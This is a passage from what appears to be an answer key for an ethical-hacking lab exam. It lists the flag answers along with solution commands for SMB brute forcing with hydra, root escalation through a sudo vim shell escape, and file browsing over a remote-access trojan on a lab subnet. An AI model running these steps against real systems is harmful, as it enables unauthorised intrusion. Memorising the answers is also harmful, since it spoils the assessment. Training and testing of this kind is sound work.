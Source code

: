 After running the command, the extracted credential should be stored in output.txt . View the content of
output.txt to retrieve the vital account credential.
cat output.txt
Now the output.txt is base64 encoded, Decode it
cat output.txt | base64 -d
# Output
maddy@777
-------------------------------------------------------------------------------------------------------
8. Exploit weak credentials used for SMB service on a Windows machine in the
10.10.55.0/24 subnet. Obtain the file, Sniffer.txt hosted on the SMB root, and enter its content
as the answer. (Format: a*aaNaNNa)
Answer: q$ew2e89a
Solution:
Identify SMB Service:
nmap -p 139,445 --open -sV 10.10.55.0/24
Enumerate SMB Shares:
smbclient -L \\10.10.55.X
Brute-force SMB Credentials:
hydra -L user_list.txt -P password_list.txt 10.10.55.X smb
Access SMB Share:
Assume user and password123 are the valid credentials found.
smbclient \\\\10.10.55.X\\share_name -U user%password123
Retrieve and Read Sniffer.txt:
get Sniffer.txt
cat Sniffer.txt
-------------------------------------------------------------------------------------------------------
9. You used shoulder surfing to identify the username and password of a user on
the Ubuntu machine in the 10.10.55.0/24 network, that is, Marcus and M3rcy@123. Access the
target machine, perform vertical privilege escalation to that of a root user, and enter the
content of the imroot.txt file as the answer. (Format: AANNNN***)
Answer: DT4345$#@
Solution:
SSH into the machine:
ssh marcus@10.10.55.X
Check sudo privileges:
sudo -l
Switch to root if possible:
sudo -i
If sudo for vim is allowed:
sudo vim
Press :
Type :!sh or :!bash
Find the imroot.txt file:
find / -name "imroot.txt" 2>/dev/null
Read the content:
cd /
cat imroot.txt
-------------------------------------------------------------------------------------------------------
10. A disgruntled ex-employee Martin has hidden some confidential files in a folder
"Scan" in a Windows machine in the 10.10.55.0/24 subnet. You can not physically access the
target machine, but you know that the organization has installed a RAT in the machine for
remote administration purposes. Your task is to check how many files present in the Scan
Folder and enter the number of files sniffed by the employee as answer. (Format: N)
Answer: 5
Solution:
Launch the RAT Client and establish a connection to the target machine.
Thief RAT -> Connect to 10.10.55.X -> Authenticate
Use the File Manager to navigate to the "Scan" folder.
Thief RAT -> File Manager -> Navigate to C:\Users\Username\Documents\Scan
Count the number of files in the "Scan" folder.